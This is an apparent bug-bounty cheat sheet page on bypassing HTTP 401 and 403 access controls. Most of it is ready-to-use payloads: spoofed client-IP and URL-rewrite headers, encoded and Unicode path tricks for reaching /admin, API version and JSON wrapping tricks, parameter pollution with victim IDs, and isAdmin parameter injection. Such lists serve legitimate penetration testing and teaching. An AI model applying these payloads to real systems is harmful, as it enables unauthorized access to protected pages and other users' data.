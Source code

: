 # Bypass 401 & 403

In web pentesting, bypassing 401 (_Unauthorized_) and 403 (_Forbidden_) errors helps assess security gaps in access controls. Techniques like **HTTP verb tampering, HTTP header fuzzing** or **Path Fuzzing** are commonly used to find vulnerabilities and gain unauthorized access.

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Bypass 401 &#x26; 403</p></figcaption></figure>

## [HTTP Verbs Tampering](https://book.bugbountyhub.xyz/pentesting-web/http-verb-tampering)

Try using **different verbs** to access the file: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`

## HTTP Headers Fuzzing

Try using HTTP Proxy **Headers**, HTTP Authentication Basic and NTLM brute-force (with a few combinations only) and other techniques.

```http
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Host: localhost
```

If the **path is protected** you can try to bypass the path protection using these other headers:

```http
X-Original-URL: /admin
X-Rewrite-URL: /admin
```

## Path **Fuzzing**

If `/admin` is **blocked**:

* Try using `/%2e/admin` _(if access is blocked by a proxy, this could bypass the protection)._
* _Try also `/%252e/admin`_ (double URL encode)
* Try **Unicode bypass**: `/%ef%bc%8fadmin` (The URL encoded chars are like "/") so when encoded back it will be `//admin` and maybe you will have already bypassed the `/admin` name check

Other `/admin` bypasses:

* `site.com/admin` –> HTTP 403 Forbidden
* `site.com/ADMIN` –> HTTP 200 OK
* `site.com/admin/` –> HTTP 200 OK
* `site.com/admin/.` –> HTTP 200 OK
* `site.com//admin//` –> HTTP 200 OK
* `site.com/./admin/..` –> HTTP 200 OK
* `site.com/;/admin` –> HTTP 200 OK
* `site.com/.;/admin` –> HTTP 200 OK
* `site.com//;//admin` –> HTTP 200 OK
* `site.com/admin.json` –> HTTP 200 OK (_ruby_)

Use all [**this list**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt) in the following situations:

* `/FUZZsecret`
* `/FUZZ/secret`
* `/secretFUZZ`

Some API bypasses:

* `/v3/users_data/1234` –> 403 Forbidden
* `/v1/users_data/1234` –> 200 OK
* `{“id”:111}`-> 401 Unauthriozied
* `{“id”:[111]}`-> 200 OK
* `{“id”:111}`-> 401 Unauthriozied
* `{“id”:{“id”:111}}` -> 200 OK
* `{"user_id":"<legit_id>","user_id":"<victims_id>"}` (_JSON Parameter Pollution_)
* `user_id=ATTACKER_ID&user_id=VICTIM_ID` (_Parameter Pollution_)

## **Parameter Manipulation** <a href="#parameter-manipulation" id="parameter-manipulation"></a>

* Change **param value**: From **`id=123` --> `id=124`**
* Add additional parameters to the URL: `?`**`id=124` —-> `id=124&isAdmin=true`**
* Remove the parameters
* Re-order parameters
* Use special characters
* Perform boundary testing in the parameters — provide values like _-234_ or _0_ or _99999999_

## **Protocol version** <a href="#protocol-version" id="protocol-version"></a>

If using `HTTP/1.1` **try to use 1.0** or even test if it **supports 2.0**.
